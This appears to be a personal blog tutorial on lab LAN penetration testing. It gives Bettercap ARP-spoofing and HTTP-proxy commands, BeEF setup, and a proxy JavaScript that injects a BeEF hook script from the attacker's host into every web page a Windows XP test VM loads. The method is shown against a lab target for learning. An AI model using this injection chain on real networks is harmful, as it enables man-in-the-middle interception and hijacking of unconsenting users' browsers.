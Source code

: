 # LAN Penetration Testing with Beef, Bettercap, and Other Tools


<!--more-->
## Introduction

Well... Let's start with some rambling as usual...

Today, I tried using Beef and Bettercap together and found them to be quite effective~

Also, if you are using Internet Explorer (IE), you can use Beef in conjunction with the ms14-064 module in Metasploit to gain system privileges~

Without further ado, let's get started~

### Testing Environment

First, let's talk about the testing environment.

* Attacker machine
    * Arch Linux
    * 192.168.101.15

* Target machine
    * Windows XP on VirtualBox
    * 192.168.101.43

Due to limited resources, we can only use Windows XP for this demonstration~

### Tools Used

1. Bettercap
    * First and foremost, Bettercap~ It is used for ARP spoofing, DNS hijacking, and network interruption attacks, which are all part of man-in-the-middle attacks...
2. Beef
    * Used for browser hijacking... and it can do many things, but I don't know the specifics.
3. Metasploit (msf)
    * Our old friend~

## Testing Process

First, let's open `bettercap`.

```bash
$ sudo bettercap
```

Then we will see the following output..

![](/img/2021-02-02_14-18.png)


**Note: You need to use sudo here because it requires root privileges to access network hardware such as network cards. If you don't use sudo, you will see a prompt like this.**


![](/img/2021-02-02_14-20.png)

Next, set the target for ARP spoofing:

```txt
set arp.spoof.targets 192.168.101.43
```

**Here, the targets are set to the IP address of the target machine.**

Next, start Beef, and remember to use `sudo` as mentioned earlier.

```bash
$ sudo beef
```

The output should be like this:

![](/img/2021-02-02_14-28.png)

Now, let's talk about the links displayed in the terminal:

* Hook URL:  [http://192.168.101.15:3000/hook.js](http://192.168.101.15:3000/hook.js)
    * This is the hook address mentioned earlier. Once a browser visits a page with this JavaScript, it will be hooked by Beef~
        Later, we will write it into an attack script~
* UI URL: [http://192.168.101.15:3000/ui/panel](http://192.168.101.15:3000/ui/panel)
    * This is the Beef control panel. After opening it, you will see a login page, similar to the cover image. After logging in, it will look like this.

![](/img/Screenshot_2021-02-02_BeEF_Control_Panel.png)

About the username and password, here's the thing: In some systems, you can't use the default login credentials `(beef:beef)` for Beef, and it may not even start. For example, this is the case with my Arch Linux.

```txt
[14:40:25][!] ERROR: Default username and password in use!
[14:40:25]    |_  Change the beef.credentials.passwd in config.yaml
```

In such cases, what you need to do is modify the `config.yaml` file. In my case, the file is located at `/usr/share/beef/config.yaml`.

Modify it as follows:

```yaml
beef:
    version: '0.5.0.0-alpha-pre'
    # More verbose messages (server-side)
    debug: false
    # More verbose messages (client-side)
    client_debug: false
    # Used for generating secure tokens
    crypto_default_value_length: 80

    # Credentials to authenticate in BeEF.
    # Used by both the RESTful API and the Admin interface
    credentials:
        user:   "Choose a username"
        passwd: "Think of a password"
```

After that, you can start the system, and the username and password you set will be used for login.

Alright, without further ado, let's continue.

Next, we need to write a JavaScript script to use with Bettercap.

```js
function onResponse(req,res){
    if(res.ContentType.indexOf('text/html')==0){
        var body=res.ReadBody();
        if(body.indexOf('</head>')!=-1){
            res.Body=body.replace(
                '</head>',
               '<script type="text/javascript" src="http://192.168.101.15:3000/hook.js"></script></head>'
            );
            }
        }
}
```

Save this file to a directory of your choice. I will save it to `/home/weepingdogel/Downloads/hack/192.168.101.43/hack.js`.

Then, let's go back to Bettercap and set the `http.proxy.script` parameter to the path mentioned above:

```txt
set http.proxy.script /home/weepingdogel/Downloads/hack/192.168.101.43/hack.js
```

Then start `net.probe`, `arp.spoof`, and `http.proxy` in sequence.

```txt
net.probe on
```

```txt
arp.spoof on
```

```txt
http.proxy on
```

Alright... Now everything is set up and ready to go...

![](/img/2021-02-02_15-12.png)

Then we'll have the target machine open a browser and visit a website...

Since IE8 no longer supports HTTPS for Bing, it will be vulnerable as soon as it opens.

![](/img/VirtualBox_XP_02_02_2021_15_25_46.png)

![](/img/2021-02-02_15-25.png)


